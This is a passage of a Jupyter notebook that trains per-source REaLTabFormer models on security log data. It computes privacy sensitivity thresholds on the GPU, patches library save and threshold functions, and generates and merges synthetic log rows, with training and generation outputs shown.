| `random_seed` | 42 | Reproducibility |

In [10]:
# ============================================================================
# 🔍 VERIFY GPU USAGE
# ============================================================================

print("=" * 70)
print("🔍 VERIFYING GPU USAGE")
print("=" * 70)

if device == "cuda":
    print(f"✅ CUDA is available and will be used!")
    print(f"\n📊 GPU STATUS:")
    print(f"   • GPU Name: {torch.cuda.get_device_name(0)}")
    print(f"   • GPU Memory Total: {torch.cuda.get_device_properties(0).total_memory / 1e9:.2f} GB")
    print(f"   • GPU Memory Allocated: {torch.cuda.memory_allocated(0) / 1e9:.4f} GB")
    print(f"   • GPU Memory Cached: {torch.cuda.memory_reserved(0) / 1e9:.4f} GB")
    print(f"   • CUDA Capability: {torch.cuda.get_device_capability(0)}")
    
    # REaLTabFormer uses Hugging Face transformers which auto-detects GPU
    # Check if transformers will use GPU by default
    try:
        from transformers import AutoTokenizer
        print(f"\n🧪 VERIFYING TRANSFORMERS GPU AUTO-DETECTION:")
        # REaLTabFormer uses GPT-2, which transformers will put on GPU if available
        print(f"   • REaLTabFormer uses Hugging Face transformers (GPT-2)")
        print(f"   • Transformers library automatically uses GPU when available")
        print(f"   ✅ Model will use GPU during training!")
        
        # Show that transformers detects CUDA
        import transformers
        print(f"   • Transformers version: {transformers.__version__}")
        print(f"   • CUDA visible to transformers: {torch.cuda.is_available()}")
    except Exception as e:
        print(f"   ⚠️ Could not verify transformers GPU detection: {e}")
    
    print(f"\n💡 TIP: Monitor GPU usage during training with:")

    print(f"   nvidia-smi -l 1  # (in separate terminal)")
else:
    print(f"⚠️ CUDA not available - model will use CPU (training will be slower)")

print("=" * 70)


🔍 VERIFYING GPU USAGE
✅ CUDA is available and will be used!

📊 GPU STATUS:
   • GPU Name: NVIDIA GeForce RTX 2060 SUPER
   • GPU Memory Total: 8.59 GB
   • GPU Memory Allocated: 0.3425 GB
   • GPU Memory Cached: 2.0070 GB
   • CUDA Capability: (7, 5)

🧪 VERIFYING TRANSFORMERS GPU AUTO-DETECTION:
   • REaLTabFormer uses Hugging Face transformers (GPT-2)
   • Transformers library automatically uses GPU when available
   ✅ Model will use GPU during training!
   • Transformers version: 4.46.3
   • CUDA visible to transformers: True

💡 TIP: Monitor GPU usage during training with:
   nvidia-smi -l 1  # (in separate terminal)


### 🧬 Model Initialization

The cell below initializes the REaLTabFormer model with our configuration parameters and verifies GPU availability. The model uses Hugging Face's transformers library which automatically detects and utilizes available GPUs.

In [11]:
# ============================================================================
# Fix: Strip deprecated overwrite_output_dir from realtabformer's defaults
# ============================================================================
# Newer transformers removed the `overwrite_output_dir` parameter, but
# realtabformer still passes it.
#
# Instead of monkey-patching TrainingArguments.__init__ (which causes
# recursion on cell re-run AND breaks pickle), we simply strip the key
# from each model's training_args_kwargs dict after creation.
#
# Nothing to run here — the fix is applied per-model in the training cell.

print("ℹ️  overwrite_output_dir fix: applied per-model in the training cell (no __init__ patch needed)")

ℹ️  overwrite_output_dir fix: applied per-model in the training cell (no __init__ patch needed)


In [12]:
# ============================================================================
# ⚡ GPU-OPTIMIZED FUNCTIONS FOR SENSITIVITY THRESHOLD COMPUTATION
# ============================================================================

from glob import glob
from datetime import datetime
from pathlib import Path
import shutil
import warnings
import types
import json
import math
import numpy as np
from scipy import stats
from sklearn.decomposition import TruncatedSVD, PCA
from sklearn.preprocessing import StandardScaler
from sklearn.model_selection import train_test_split
from tqdm.auto import tqdm

def gpu_manhattan_distances(X, Y, device='cuda', batch_size=2000):
    """
    GPU-accelerated Manhattan distance computation using PyTorch.
    """
    X_tensor = torch.tensor(X, dtype=torch.float32, device=device)
    Y_tensor = torch.tensor(Y, dtype=torch.float32, device=device)
    
    n_X = X_tensor.shape[0]
    n_Y = Y_tensor.shape[0]
    
    # For large matrices, compute in batches to avoid OOM
    if n_X * n_Y > 100_000_000:
        distances = np.zeros((n_X, n_Y), dtype=np.float32)
        for i in range(0, n_X, batch_size):
            end_i = min(i + batch_size, n_X)
            batch_X = X_tensor[i:end_i]
            batch_dist = torch.cdist(batch_X, Y_tensor, p=1)
            distances[i:end_i] = batch_dist.cpu().numpy()
        return distances
    else:
        distances = torch.cdist(X_tensor, Y_tensor, p=1)
        return distances.cpu().numpy()


def fast_preprocess_for_threshold(data, embeddings_dict=None, embedding_pca_dims=50, 
                                   max_categorical_cardinality=100, verbose=True):
    """
    FAST preprocessing for threshold computation with embeddings.
    """
    features = []
    feature_names = []
    n_data = len(data)
    embeddings_added = []
    
    # 1. Numeric columns - just standardize
    numeric_cols = data.select_dtypes(include=['number']).columns.tolist()
    if numeric_cols:
        numeric_data = data[numeric_cols].fillna(0).values
        scaler = StandardScaler()
        numeric_scaled = scaler.fit_transform(numeric_data)
        features.append(numeric_scaled)
        feature_names.extend(numeric_cols)
        if verbose:
            print(f"         - Numeric columns: {len(numeric_cols)}")
    
    # 2. Categorical columns - only LOW cardinality ones
    categorical_cols = data.select_dtypes(include=['object', 'category']).columns.tolist()
    low_card_cats = [c for c in categorical_cols 
                     if data[c].nunique() <= max_categorical_cardinality]
    
    if low_card_cats:
        cat_features = []
        for col in low_card_cats:
            codes = data[col].astype('category').cat.codes.values.reshape(-1, 1)
            cat_features.append(codes)
            feature_names.append(f"{col}_enc")
        cat_array = np.hstack(cat_features).astype(np.float32)
        cat_scaled = StandardScaler().fit_transform(cat_array)
        features.append(cat_scaled)
        if verbose:
            print(f"         - Low-cardinality categorical: {len(low_card_cats)}")
    
    # 3. PCA-reduced embeddings (if available)
    if embeddings_dict:
        if verbose:
            print(f"         - Processing {len(embeddings_dict)} embedding columns...")
        
        for col_name, emb_array in embeddings_dict.items():
            if emb_array is None:
                if verbose:
                    print(f"           ⚠️ {col_name}: None (skipped)")
                continue
            
            emb_len = len(emb_array) if hasattr(emb_array, '__len__') else 0
            
            if emb_len != n_data:
                if verbose:
                    print(f"           ⚠️ {col_name}: length mismatch ({emb_len} vs {n_data}) - skipped")
                continue
            
            # Reduce 768 dims to embedding_pca_dims using PCA
            n_components = min(embedding_pca_dims, emb_array.shape[1], n_data - 1)
            pca = PCA(n_components=n_components)
            emb_reduced = pca.fit_transform(emb_array)
            features.append(emb_reduced)
            feature_names.extend([f"{col_name}_emb_{i}" for i in range(n_components)])
            embeddings_added.append(col_name)
            
            if verbose:
                print(f"           ✅ {col_name}: {emb_array.shape[1]} → {n_components} dims")
    
    # Combine all features
    if features:
        combined = np.hstack(features).astype(np.float32)
    else:
        combined = np.zeros((n_data, 1), dtype=np.float32)
    
    # Handle NaN
    combined = np.nan_to_num(combined, nan=0.0)
    
    return combined, feature_names, embeddings_added


def compute_sensitivity_metric_gpu(original, synthetic, test, qt_max=0.05, 
                                    qt_interval=1000, max_col_nums=50, 
                                    device='cuda'):
    """
    Compute sensitivity metric with GPU acceleration.
    """
    # Apply TruncatedSVD if too many columns
    if original.shape[1] >= max_col_nums:
        n_components = max(5, math.ceil(original.shape[1] ** 0.5))
        tsvd = TruncatedSVD(n_components=n_components)
        original = tsvd.fit_transform(original)
        test = tsvd.transform(test)
        synthetic = tsvd.transform(synthetic)
    
    # GPU-accelerated Manhattan distances
    test_distances = gpu_manhattan_distances(original, test, device=device)
    synth_distances = gpu_manhattan_distances(original, synthetic, device=device)
    
    # Min distances
    test_min = test_distances.min(axis=1)
    synth_min = synth_distances.min(axis=1)
    
    tr_test_min = test_distances.min(axis=0)
    tr_synth_min = synth_distances.min(axis=0)
    
    # Filter duplicates
    fltr = (synth_min == 0) & (test_min == 0)
    test_min = test_min[~fltr]
    synth_min = synth_min[~fltr]
    
    test_min = np.concatenate([test_min, tr_test_min])
    synth_min = np.concatenate([synth_min, tr_synth_min])
    
    # Compute statistic
    quantiles = np.linspace(0, qt_max, qt_interval)
    statistic = np.mean(
        (synth_min.reshape(1, -1) <= np.quantile(test_min, quantiles).reshape(-1, 1)).mean(axis=1)
        - quantiles
    )
    
    return statistic


def compute_sensitivity_threshold_gpu_fast(train_data, embeddings_dict=None,
                                            num_bootstrap=500, frac=0.165,
                                            qt_max=0.05, qt_interval=1000,
                                            quantile=0.95, max_col_nums=50,
                                            embedding_pca_dims=50,
                                            full_sensitivity=True,
                                            sensitivity_orig_frac_multiple=3,
                                            device='cuda'):
    """
    TRULY GPU-OPTIMIZED sensitivity threshold computation.
    """
    print(f"\n   ⚡ Computing GPU-accelerated sensitivity threshold...")
    print(f"      Device: {device.upper()}")
    print(f"      Bootstrap iterations: {num_bootstrap}")
    print(f"      Data shape: {train_data.shape}")
    
    start_time = datetime.now()
    
    # PREPROCESS ALL DATA ONCE
    print(f"      Preprocessing data ONCE:")
    preprocess_start = datetime.now()
    
    preprocessed_data, feature_names, embeddings_added = fast_preprocess_for_threshold(
        train_data, 
        embeddings_dict=embeddings_dict,
        embedding_pca_dims=embedding_pca_dims,
        max_categorical_cardinality=100,
        verbose=True
    )
    
    preprocess_time = (datetime.now() - preprocess_start).total_seconds()
    print(f"      Total features: {len(feature_names)} (took {preprocess_time:.1f}s)")
    
    if embeddings_added:
        print(f"      ✅ Embeddings included: {len(embeddings_added)} columns × {embedding_pca_dims} PCA dims")
    else:
        print(f"      ⚠️ No embeddings were added (check lengths above)")
    
    # BOOTSTRAP LOOP
    if not full_sensitivity:
        frac = 2 * frac
        assert (sensitivity_orig_frac_multiple + 2) * frac <= 1
    
    values = []
    n_samples = len(preprocessed_data)
    indices = np.arange(n_samples)
    
    np.random.seed(42)
    
    print(f"      Starting bootstrap loop...")
    
    for i in tqdm(range(num_bootstrap), desc="      Bootstrap"):
        if full_sensitivity:
            train_idx, test_idx = train_test_split(indices, test_size=2 * frac)
            split_point = len(test_idx) // 2
            synthetic_idx = test_idx[:split_point]
            test_idx = test_idx[split_point:]
            original_idx = train_idx
        else:
            n_size = int(n_samples * frac)
            n_train_size = sensitivity_orig_frac_multiple * n_size
            test_size = n_train_size + (2 * n_size)
            
            _, source_idx = train_test_split(indices, test_size=test_size)
            original_idx = source_idx[:n_train_size]
            synthetic_idx = source_idx[n_train_size:n_train_size + n_size]
            test_idx = source_idx[n_train_size + n_size:]
        
        original = preprocessed_data[original_idx]
        synthetic = preprocessed_data[synthetic_idx]
        test = preprocessed_data[test_idx]
        
        metric = compute_sensitivity_metric_gpu(
            original=original,
            synthetic=synthetic,
            test=test,
            qt_max=qt_max,
            qt_interval=qt_interval,
            max_col_nums=max_col_nums,
            device=device
        )
        values.append(metric)
    
    threshold = np.quantile(values, quantile)
    mean_value = np.mean(values)
    
    elapsed = (datetime.now() - start_time).total_seconds()
    
    print(f"\n   ✅ Threshold computation complete!")
    print(f"      Duration: {elapsed:.1f}s ({elapsed/60:.1f} min)")
    print(f"      Threshold (95th percentile): {threshold:.6f}")
    print(f"      Mean sensitivity: {mean_value:.6f}")
    print(f"      Values range: [{min(values):.6f}, {max(values):.6f}]")
    
    return {
        'threshold': threshold,
        'mean': mean_value,
        'values': values,
        'quantile': quantile,
        'num_bootstrap': num_bootstrap
    }


def patched_save(self, path, allow_overwrite=False):
    """Patched save method that handles non-JSON-serializable objects."""
    path = Path(path)
    path.mkdir(parents=True, exist_ok=True)
    config_file = path / "rtf_config.json"
    
    rtf_attrs = {}
    for key, value in self.__dict__.items():
        if key.startswith('_') and key != '_column_order':
            continue
        if key in ['model', 'trainer', 'tokenizer', 'data_collator']:
            continue
        try:
            json.dumps(value, default=str)
            if isinstance(value, Path):
                rtf_attrs[key] = value.as_posix()
            elif hasattr(value, '__class__') and value.__class__.__name__ == 'Dataset':
                continue
            else:
                rtf_attrs[key] = value
        except (TypeError, ValueError):
            continue
    
    for attr in ["checkpoints_dir", "samples_save_dir", "full_save_dir"]:
        if attr in rtf_attrs and hasattr(rtf_attrs[attr], 'as_posix'):
            rtf_attrs[attr] = rtf_attrs[attr].as_posix()
    
    def json_encoder(obj):
        if isinstance(obj, Path):
            return obj.as_posix()
        if hasattr(obj, 'tolist'):
            return obj.tolist()
        return str(obj)
    
    config_file.write_text(json.dumps(rtf_attrs, default=json_encoder, indent=2))
    
    if hasattr(self, 'model') and self.model is not None:
        self.model.save_pretrained(path)
    if hasattr(self, 'tokenizer') and self.tokenizer is not None:
        self.tokenizer.save_pretrained(path)

print("✅ GPU optimization functions loaded!")


✅ GPU optimization functions loaded!


In [14]:
# ============================================================================
# 🧬 INITIALIZE & TRAIN ONE MODEL PER SOURCE TYPE (GPU-OPTIMIZED)
# ============================================================================

print("=" * 70)
print("🧬 STRATIFIED TRAINING — ONE MODEL PER SOURCE TYPE (GPU-OPTIMIZED)")
print("=" * 70)

os.environ["WANDB_DISABLED"] = "true"
os.environ["TOKENIZERS_PARALLELISM"] = "false"
os.environ["WANDB_MODE"] = "disabled"

trained_models = {}
training_times = {}
thresholds_per_stratum = {}

# Prepare embeddings dict (if available from earlier cell)
embeddings_for_threshold = None
if 'text_embeddings' in dir() and text_embeddings:
    embeddings_for_threshold = {}
    
    for col, emb_data in text_embeddings.items():
        if emb_data is None:
            continue
        
        # Handle nested dict structure
        if isinstance(emb_data, dict):
            if 'embeddings' in emb_data:
                actual_emb = emb_data['embeddings']
            elif 'mean_pool' in emb_data:
                actual_emb = emb_data['mean_pool']
            else:
                actual_emb = next((v for v in emb_data.values() if hasattr(v, 'shape')), None)
            
            if actual_emb is not None and hasattr(actual_emb, 'shape'):
                embeddings_for_threshold[col] = actual_emb
        
        # Handle direct array
        elif hasattr(emb_data, 'shape'):
            embeddings_for_threshold[col] = emb_data
    
    if not embeddings_for_threshold:
        embeddings_for_threshold = None

device = 'cuda' if torch.cuda.is_available() else 'cpu'

for stype, info in strata.items():
    df_train = info['df']
    n_rows = info['n_rows']
    n_cols = len(info['all_cols'])

    print(f"\n{'=' * 70}")
    print(f"🔹 TRAINING: {stype.upper()} ({n_rows:,} rows × {n_cols} cols)")
    print(f"{'=' * 70}")

    # Adjust hyperparameters for small datasets
    if n_rows < 200:
        epochs = min(CONFIG['epochs'], 300)
        batch_size = min(CONFIG['batch_size'], max(8, n_rows // 4))
    elif n_rows < 1000:
        epochs = CONFIG['epochs']
        batch_size = min(CONFIG['batch_size'], 16)
    else:
        epochs = CONFIG['epochs']
        batch_size = CONFIG['batch_size']

    print(f"   Epochs:     {epochs}")
    print(f"   Batch size: {batch_size}")

    ckpt_dir = os.path.join(CONFIG['checkpoints_dir'], stype)
    os.makedirs(ckpt_dir, exist_ok=True)

    # ===== GPU-OPTIMIZED THRESHOLD COMPUTATION FOR THIS STRATUM =====
    print(f"\n   📊 Computing GPU-accelerated sensitivity threshold for {stype}...")
    
    # Filter embeddings to match this stratum's rows
    stratum_embeddings = None
    if embeddings_for_threshold:
        stratum_embeddings = {}
        # Get original indices for this stratum (need to map back to raw_data)
        # For now, use embeddings if they match the length
        for col, emb_array in embeddings_for_threshold.items():
            if emb_array.shape[0] == n_rows:
                stratum_embeddings[col] = emb_array
            elif emb_array.shape[0] == len(raw_data):
                # Subset embeddings to match this stratum
                # This is approximate - ideally we'd track which rows belong to which stratum
                # For now, skip embeddings if length doesn't match exactly
                pass
    
    # Compute threshold with GPU
    threshold_result = compute_sensitivity_threshold_gpu_fast(
        train_data=df_train,
        embeddings_dict=stratum_embeddings if stratum_embeddings else None,
        num_bootstrap=500,
        frac=0.165,
        qt_max=0.05,
        qt_interval=1000,
        quantile=0.95,
        max_col_nums=50,
        embedding_pca_dims=50,
        full_sensitivity=True,
        device=device
    )
    
    COMPUTED_THRESHOLD = threshold_result['threshold']
    thresholds_per_stratum[stype] = COMPUTED_THRESHOLD
    
    # ===== PATCH REALTABFORMER TO USE COMPUTED THRESHOLD =====
    try:
        from realtabformer.rtf_analyze import SyntheticDataBench
    except ImportError:
        try:
            import realtabformer.realtabformer as rtf_module
            SyntheticDataBench = rtf_module.SyntheticDataBench
        except:
            SyntheticDataBench = None

    if SyntheticDataBench:
        def patched_compute_sensitivity_threshold(*args, **kwargs):
            return_values = kwargs.get('return_values', False)
            if return_values:
                return threshold_result['values']
            return COMPUTED_THRESHOLD
        
        SyntheticDataBench.compute_sensitivity_threshold = staticmethod(patched_compute_sensitivity_threshold)
        print(f"   ✅ Threshold injected: {COMPUTED_THRESHOLD:.6f}")

    # Initialize model
    model = REaLTabFormer(
        model_type='tabular',
        gradient_accumulation_steps=CONFIG['gradient_accumulation_steps'],
        logging_steps=CONFIG['logging_steps'],
        save_steps=CONFIG['save_steps'],
        epochs=epochs,
        batch_size=batch_size,
        train_size=CONFIG['train_size'],
        random_state=CONFIG['random_seed'],
        checkpoints_dir=ckpt_dir,
    )
    
    # Strip deprecated kwarg that newer transformers removed (pickle-safe fix)
    model.training_args_kwargs.pop('overwrite_output_dir', None)

    # Apply patched save method
    model.save = types.MethodType(patched_save, model)

    # ===== AUTO-RESUME FROM CHECKPOINT =====
    checkpoint_pattern = os.path.join(ckpt_dir, "checkpoint-*")
    latest_checkpoint = None

    if glob(checkpoint_pattern):
        checkpoints = sorted(
            [d for d in glob(checkpoint_pattern) if os.path.isdir(d)],
            key=lambda x: int(x.split('-')[-1])
        )
        if checkpoints:
            latest_checkpoint = checkpoints[-1]
            print(f"   ✅ RESUMING from: {os.path.basename(latest_checkpoint)}")
        else:
            print(f"   🆕 STARTING FRESH")
    else:
        print(f"   🆕 STARTING FRESH")

    print(f"   🖥️  Device: {CONFIG['device']} (GPUs: {torch.cuda.device_count() if torch.cuda.is_available() else 0})")

    train_start = datetime.now()
    print(f"   🕐 Started: {train_start.strftime('%H:%M:%S')}")

    try:
        model.fit(
            df_train, 
            device=CONFIG['device'],
            resume_from_checkpoint=latest_checkpoint if latest_checkpoint else None,
            gen_kwargs={},  # Fix: gen_kwargs=None causes **None TypeError in _train_with_sensitivity
        )
        train_end = datetime.now()
        duration = (train_end - train_start).total_seconds() / 60
        print(f"   ✅ Done in {duration:.1f} min")
        trained_models[stype] = model
        training_times[stype] = duration
    except Exception as e:
        print(f"   ❌ FAILED: {e}")
        import traceback
        traceback.print_exc()

print(f"\n{'=' * 70}")
print(f"✅ TRAINING COMPLETE: {len(trained_models)}/{len(strata)} models succeeded")
for stype, dur in training_times.items():
    print(f"   {stype:>10}: {dur:.1f} min (threshold: {thresholds_per_stratum.get(stype, 'N/A'):.6f})")
print(f"   {'TOTAL':>10}: {sum(training_times.values()):.1f} min")
print("=" * 70)

🧬 STRATIFIED TRAINING — ONE MODEL PER SOURCE TYPE (GPU-OPTIMIZED)

🔹 TRAINING: NETWORK (18,920 rows × 9 cols)
   Epochs:     150
   Batch size: 32

   📊 Computing GPU-accelerated sensitivity threshold for network...

   ⚡ Computing GPU-accelerated sensitivity threshold...
      Device: CUDA
      Bootstrap iterations: 500
      Data shape: (18920, 9)
      Preprocessing data ONCE:
         - Low-cardinality categorical: 8
      Total features: 8 (took 0.1s)
      ⚠️ No embeddings were added (check lengths above)
      Starting bootstrap loop...


      Bootstrap: 100%|██████████| 500/500 [05:31<00:00,  1.51it/s]



   ✅ Threshold computation complete!
      Duration: 331.3s (5.5 min)
      Threshold (95th percentile): 0.968376
      Mean sensitivity: 0.966144
      Values range: [0.958596, 0.969304]
   ✅ Threshold injected: 0.968376
   ✅ RESUMING from: checkpoint-700
   🖥️  Device: cuda (GPUs: 1)
   🕐 Started: 12:37:08
Computing the sensitivity threshold...
Sensitivity threshold: 0.9683764216467725 qt_max: 0.05


Map: 100%|██████████| 18920/18920 [00:02<00:00, 9150.08 examples/s]
Using the `WANDB_DISABLED` environment variable is deprecated and will be removed in v5. Use the --report_to flag to control the integrations used for logging result (for instance --report_to none).
 14%|█▍        | 100/700 [00:09<00:54, 10.94it/s]

{'loss': 1.4186, 'grad_norm': 3.2554049491882324, 'learning_rate': 4.976190476190477e-05, 'epoch': 0.71}



 15%|█▍        | 102/700 [00:10<01:19,  7.49it/s]

... (1,815 outputs left out)

100%|██████████| 2850/2850 [00:11<00:00, 252.36it/s]  


{'train_runtime': 11.3046, 'train_samples_per_second': 32774.192, 'train_steps_per_second': 252.109, 'train_loss': 0.0038497811033014664, 'epoch': 149.87}


1408it [00:02, 692.70it/s]                          


Generated 0 invalid samples out of total 1408 samples generated. Sampling efficiency is: 100.0000%
Critic round: 150,                     sensitivity_threshold: 0.970392762017503,                         val_sensitivity: 0.9232203941112436,                             val_sensitivities: [0.913730853391685, 0.9199339207048458, 0.9255154639175257, 0.9164225941422595, 0.9226987447698745, 0.9246717724288841, 0.922033898305085, 0.9201476793248945, 0.9257494646680942, 0.9222527472527472, 0.9177966101694918, 0.9241150442477876, 0.9545454545454546, 0.918157894736842, 0.920533769063181]
   ✅ Done in 8.3 min

✅ TRAINING COMPLETE: 5/5 models succeeded
      network: 183.7 min (threshold: 0.968376)
     syscheck: 21.9 min (threshold: 0.959069)
          sca: 6.1 min (threshold: 0.640850)
        audit: 3.1 min (threshold: 0.801129)
         base: 8.3 min (threshold: 0.970393)
        TOTAL: 223.0 min


### 🚀 Training Execution (GPU-Optimized)

The training cell below includes several advanced features:

1. **GPU-Accelerated Sensitivity Threshold**: 
   - Uses CUDA for fast Manhattan distance computation
   - Bootstrap sampling for privacy threshold estimation
   - SecBERT embeddings included in threshold calculation

2. **Checkpoint Auto-Resume**: 
   - Automatically detects and resumes from latest checkpoint
   - Prevents loss of training progress on interruption

3. **Patched Save Method**: 
   - Handles non-JSON-serializable objects
   - Ensures model can be saved and loaded correctly

**⏱️ Expected Training Time**: ~30-60 minutes on modern GPU (varies with data size)

In [15]:
# ============================================================================
# 💾 SAVE TRAINED MODELS
# ============================================================================

print("=" * 70)
print("💾 SAVING STRATIFIED MODELS")
print("=" * 70)

for stype, model in trained_models.items():
    model_dir = os.path.join(CONFIG['output_dir'], f'model_{stype}')
    model.save(model_dir)
    print(f"   ✅ {stype}: {model_dir}")

# Save strata metadata
strata_meta = {}
for stype, info in strata.items():
    strata_meta[stype] = {
        'n_rows': info['n_rows'],
        'columns': info['all_cols'],
        'col_types': info['col_types'],
        'training_time_min': training_times.get(stype, 0),
    }

meta_path = os.path.join(CONFIG['output_dir'], 'strata_metadata.json')
with open(meta_path, 'w') as f:
    json.dump(strata_meta, f, indent=2, default=str)
print(f"   ✅ Metadata: {meta_path}")
print("=" * 70)


💾 SAVING STRATIFIED MODELS
   ✅ network: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_network
   ✅ syscheck: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_syscheck
   ✅ sca: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_sca
   ✅ audit: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_audit
   ✅ base: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_base
   ✅ Metadata: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\strata_metadata.json


### 💾 Model Checkpointing & Restoration

The cells below handle model persistence:
- **Save trained model**: Exports model weights, tokenizer, and configuration
- **Resume from checkpoint**: Allows continuing interrupted training
- **Configuration backup**: Saves hyperparameters and column mappings for reproducibility

from glob import glob
import os

checkpoint_pattern = os.path.join(CONFIG['checkpoints_dir'], "checkpoint-*")
checkpoints = sorted(glob(checkpoint_pattern))

if checkpoints:
    print(f"✅ Found {len(checkpoints)} checkpoint(s):")
    for cp in checkpoints:
        print(f"   - {cp}")
    latest_checkpoint = checkpoints[-1]
    print(f"\n🎯 Will resume from: {latest_checkpoint}")
else:
    print("❌ No checkpoints found - will need to restart")

import numpy as np

# Try to find the correct import path
try:
    from realtabformer.rtf_validators import SyntheticDataBench
except ImportError:
    try:
        from realtabformer.realtabformer import SyntheticDataBench
    except ImportError:
        # Find it dynamically
        import realtabformer
        SyntheticDataBench = getattr(realtabformer, 'SyntheticDataBench', None)
        if SyntheticDataBench is None:
            # Last resort: patch at the module level
            import realtabformer.realtabformer as rtf_module
            SyntheticDataBench = rtf_module.SyntheticDataBench

# Create patched version that returns your known threshold
def patched_compute_sensitivity_threshold(*args, **kwargs):
    print("✅ Using pre-computed sensitivity threshold: 0.16750709503093994")
    return np.array([0.16750709503093994] * 10)

# Apply the patch
SyntheticDataBench.compute_sensitivity_threshold = staticmethod(patched_compute_sensitivity_threshold)

# Now run training
rtf_model.fit(
    df,
    resume_from_checkpoint="./realtabformer_checkpoints/checkpoint-900",
    device=CONFIG['device'],
    gen_kwargs={},
)

## 🔄 Section 5: Synthetic Data Generation

Now we use the trained model to generate synthetic APT data. 

### Generation Process:

```
┌────────────────────────────────────────────────────────────────────┐
│                   Autoregressive Generation                         │
├────────────────────────────────────────────────────────────────────┤
│                                                                     │
│  1. START: [BOS] token                                             │
│     │                                                               │
│     ▼                                                               │
│  2. PREDICT: P(next_token | previous_tokens)                       │
│     │        Using softmax over vocabulary                          │
│     │                                                               │
│     ▼                                                               │
│  3. SAMPLE: Draw token from probability distribution                │
│     │        (Temperature controls randomness)                      │
│     │                                                               │
│     ▼                                                               │
│  4. APPEND: Add sampled token to sequence                          │
│     │                                                               │
│     ▼                                                               │
│  5. REPEAT: Until [EOS] token generated                            │
│     │                                                               │
│     ▼                                                               │
│  6. DECODE: Convert token sequence back to tabular row              │
│     │                                                               │
│     ▼                                                               │
│  OUTPUT: Synthetic row with all 37 features                        │
└────────────────────────────────────────────────────────────────────┘
```

### 📊 Generation Parameters:
- **Synthetic Ratio**: 2.0x (generates 2x the original data size)
- **Batch Size**: 256 samples per generation batch
- **Sampling**: Uses nucleus (top-p) sampling for diversity

In [17]:
# ============================================================================
# 🔄 GENERATE SYNTHETIC DATA (PROPORTIONAL PER SOURCE TYPE)
# ============================================================================

print("=" * 70)
print("🔄 GENERATING SYNTHETIC DATA (STRATIFIED)")
print("=" * 70)

total_original = sum(s['n_rows'] for s in strata.values())
total_synthetic_target = int(total_original * CONFIG['synthetic_ratio'])

print(f"\n📊 GENERATION PLAN:")
print(f"   Original total:  {total_original:,}")
print(f"   Synthetic ratio: {CONFIG['synthetic_ratio']}x")
print(f"   Synthetic total: {total_synthetic_target:,}")

synthetic_per_source = {}
gen_times = {}

for stype, model in trained_models.items():
    n_orig = strata[stype]['n_rows']
    n_synth = max(1, int(total_synthetic_target * (n_orig / total_original)))

    print(f"\n🔹 {stype.upper()}: generating {n_synth:,} samples (from {n_orig:,} original)")

    gen_start = datetime.now()
    try:
        synth = model.sample(n_samples=n_synth)
        gen_end = datetime.now()
        gen_dur = (gen_end - gen_start).total_seconds() / 60
        synth['_source_type'] = stype
        synthetic_per_source[stype] = synth
        gen_times[stype] = gen_dur
        print(f"   ✅ Generated {len(synth):,} rows × {len(synth.columns)} cols in {gen_dur:.1f} min")
    except Exception as e:
        print(f"   ❌ FAILED: {e}")

# ── Merge all synthetic strata ──
print(f"\n{'=' * 70}")
print("🔗 MERGING SYNTHETIC STRATA")
print("=" * 70)

all_cols = set()
for synth_df in synthetic_per_source.values():
    all_cols.update(synth_df.columns)

aligned = []
for stype, synth_df in synthetic_per_source.items():
    for col in all_cols:
        if col not in synth_df.columns:
            synth_df[col] = np.nan
    aligned.append(synth_df)

synthetic_combined = pd.concat(aligned, ignore_index=True)

# Set source-specific columns to NaN for rows of other types
for stype_name, info in SOURCE_TYPES.items():
    other_rows = synthetic_combined['_source_type'] != stype_name
    for col in info['cols']:
        if col in synthetic_combined.columns:
            synthetic_combined.loc[other_rows, col] = np.nan

# Also point synthetic_samples to combined for backward compat
synthetic_samples = synthetic_combined

print(f"\n✅ COMBINED SYNTHETIC DATA:")
print(f"   Shape: {synthetic_combined.shape[0]:,} rows × {synthetic_combined.shape[1]} cols")
for stype in synthetic_per_source:
    n = (synthetic_combined['_source_type'] == stype).sum()
    print(f"   {stype:>10}: {n:,} rows")

total_cells = synthetic_combined.shape[0] * synthetic_combined.shape[1]
total_missing = synthetic_combined.isnull().sum().sum()
print(f"\n   Missing: {total_missing:,} / {total_cells:,} ({total_missing/total_cells*100:.1f}%)")
print("=" * 70)


🔄 GENERATING SYNTHETIC DATA (STRATIFIED)

📊 GENERATION PLAN:
   Original total:  25,418
   Synthetic ratio: 2.0x
   Synthetic total: 50,836

🔹 NETWORK: generating 37,840 samples (from 18,920 original)


37888it [02:17, 275.78it/s]                           


Generated 0 invalid samples out of total 37888 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 37,840 rows × 10 cols in 2.3 min

🔹 SYSCHECK: generating 5,724 samples (from 2,862 original)


5760it [00:17, 335.86it/s]                          


Generated 0 invalid samples out of total 5760 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 5,724 rows × 11 cols in 0.3 min

🔹 SCA: generating 1,740 samples (from 870 original)


1792it [00:03, 551.46it/s]                          


Generated 0 invalid samples out of total 1792 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 1,740 rows × 8 cols in 0.1 min

🔹 AUDIT: generating 330 samples (from 165 original)


384it [00:01, 280.46it/s]                         


Generated 0 invalid samples out of total 384 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 330 rows × 15 cols in 0.0 min

🔹 BASE: generating 5,202 samples (from 2,601 original)


5248it [00:08, 602.16it/s]                          

Generated 0 invalid samples out of total 5248 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 5,202 rows × 7 cols in 0.1 min

🔗 MERGING SYNTHETIC STRATA

✅ COMBINED SYNTHETIC DATA:
   Shape: 50,836 rows × 23 cols
      network: 37,840 rows
     syscheck: 5,724 rows
          sca: 1,740 rows
        audit: 330 rows
         base: 5,202 rows

   Missing: 672,580 / 1,169,228 (57.5%)


### 👀 Synthetic Data Preview

The cell below provides a side-by-side comparison of real vs synthetic data:
- Sample rows from both datasets
- Text column content comparison
- Categorical distribution alignment check

In [19]:
# ============================================================================
# 👀 PREVIEW SYNTHETIC DATA
# ============================================================================

print("=" * 70)
print("👀 SYNTHETIC DATA PREVIEW")
print("=" * 70)

# Compare real vs synthetic samples
